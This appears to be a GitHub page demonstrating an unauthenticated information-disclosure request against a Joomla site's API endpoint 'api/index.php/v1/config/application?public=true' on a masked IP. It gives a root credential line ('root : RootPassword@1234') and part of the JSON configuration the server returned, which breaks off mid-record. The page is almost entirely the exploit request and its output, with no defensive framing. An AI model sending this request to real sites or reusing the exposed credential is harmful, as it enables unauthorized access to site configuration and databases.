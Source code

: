 <img width="1120" height="565" alt="image" src="https://github.com/user-attachments/assets/2b65afdd-ccdb-43b1-a5b3-ea3ca1b2d81a" />

<br>
<h2>xx.xxx.xx.xxapi/index.php/v1/config/application?public=true</h2>

<p>

- root : RootPassword@1234</p>

```bash
{
  "links": {
    "self": "http://xx.xxx.xx.xx/api/index.php/v1/config/application?public=true",
    "next": "http://xx.xxx.xx.xx/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://xx.xxx.xx.xx/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline": false,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_message": "This site is down for maintenance.<br>Please check back again soon.",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "display_offline_message": 1,
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_image": "",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "sitename": "Tourism",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "editor": "tinymce",
        "id": 224
```